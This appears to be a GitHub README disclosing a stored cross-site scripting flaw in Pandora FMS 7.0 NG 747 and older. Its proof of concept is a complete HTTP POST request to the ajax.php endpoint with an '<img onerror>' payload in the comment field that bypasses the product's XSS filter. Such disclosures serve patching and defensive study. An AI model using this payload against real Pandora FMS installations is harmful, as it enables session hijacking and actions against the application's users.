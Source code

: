 # Pandora-FMS-7.0-NG-747-Stored-XSS
A stored cross-site scripting (XSS) in Pandora FMS 7.0 NG 747 can result in an attacker performing malicious actions to users who open a maliciously crafted link or third-party web page. In addition, the existing XSS filter can be bypassed with the "<img" tag.

Pandora FMS 7.0 NG747 and older versions are affected by this vulnerability.


# PoC
To exploit vulnerability, someone could use a POST request to '/pandora_console/ajax.php' by manipulating 'comment' parameter in the request body to impact users who open a maliciously crafted link or third-party web page.

```
POST /pandora_console/ajax.php HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 119
DNT: 1
Connection: close
Cookie: PHPSESSID=a55pr5b4gff5ea1h0pms4csrk5

page=include/ajax/events&add_comment=1&event_id=7&comment=<img src=x onerror="alert(document.cookie)">&meta=0&history=0
```

![](https://emreovunc.com/blog/en/Pandora-FMS-7.0-NG-747-Stored-XSS-01.png)

![](https://emreovunc.com/blog/en/Pandora-FMS-7.0-NG-747-Stored-XSS-02.png)
